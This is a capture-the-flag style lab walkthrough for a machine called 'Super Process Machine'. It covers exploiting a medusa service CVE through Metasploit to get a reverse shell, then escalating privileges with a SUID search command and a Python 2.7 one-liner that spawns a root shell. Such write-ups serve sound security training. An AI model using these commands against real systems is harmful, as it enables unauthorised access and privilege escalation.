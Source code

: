 # Super Process Machine

Start with scan IP of machine

![image.png](<../../.gitbook/assets/image (1) (1) (1).png>)

after search for `medusa` service we found CVE https://www.exploit-db.com/exploits/42779 which we can use Metasploit to exploit this service

<figure><img src="../../.gitbook/assets/image 1 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we success to take a reverse shell on this machine

now let’s make a privilege escalation which we started to search on process have SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image 2 (1) (1).png" alt=""><figcaption></figcaption></figure>

now let’s search on python 2.7 exploit

<figure><img src="../../.gitbook/assets/image 3 (1).png" alt=""><figcaption></figcaption></figure>

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

<figure><img src="../../.gitbook/assets/image 4 (1).png" alt=""><figcaption></figcaption></figure>
